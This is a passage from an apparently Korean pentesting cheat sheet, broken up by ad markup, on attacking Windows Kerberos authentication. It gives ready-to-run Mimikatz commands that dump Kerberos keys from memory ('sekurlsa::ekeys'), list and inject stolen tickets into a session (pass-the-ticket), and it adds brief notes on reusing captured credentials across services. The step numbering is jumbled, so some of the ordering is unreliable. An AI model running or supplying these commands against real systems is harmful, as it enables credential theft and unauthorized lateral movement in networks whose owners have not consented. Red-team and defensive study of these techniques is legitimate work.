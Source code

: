 - Mimikatz와 같은 도구를 사용하여 Kerberos 키를 추출합니다.

mimikatz.exe "privilege::debug" "sekurlsa::ekeys" "exit"



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

2. 키를 사용하여 Kerberos 티켓을 요청하고 인증하세요.

```js
mimikatz.exe "kerberos::ptt <ticket.kirbi>"
```

# 티켓 전달

- Mimikatz를 사용하여 Kerberos 티켓을 추출하세요.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
mimikatz.exe "kerberos::list" "kerberos::ptt <ticket.kirbi>" "exit"
```

2. Mimikatz를 사용하여 현재 세션에 티켓을 삽입합니다.

# 자격 증명 재사용

- 다른 서비스 간에 재사용된 자격 증명 식별
- 획득한 자격 증명을 사용하여 다른 서비스에서 인증합니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>
